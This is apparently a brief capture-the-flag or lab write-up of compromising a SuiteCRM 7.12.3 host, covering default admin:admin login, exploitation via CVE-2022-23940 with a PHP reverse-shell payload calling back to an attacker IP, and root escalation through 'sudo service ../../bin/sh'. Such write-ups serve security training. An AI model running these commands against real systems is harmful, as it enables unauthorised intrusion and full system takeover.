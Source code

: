#Pwned! 
```IP
192.168.232.146
```
# Enumeration

## HTTP 80
admin:admin
we are in

Suite CRM
Version 7.12.3
Sugar Version 6.5.25 (Build 344)
# Exploitation
https://github.com/manuelz120/CVE-2022-23940
```
python exploit.py -h http://192.168.232.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.185\",4444);passthru(\"sh <&3 >&3 2>&3\");'"
```

# PrivEsc

## Manual
tty treatment
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110748.png?raw=true)

we can use sudo service 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110828.png?raw=true)
with service we can access the file system without dropping privileges
```
sudo service ../../bin/sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110933.png?raw=true)
we are root now
## Automated

### Peass
### Mimikatz

# Lateral Movement

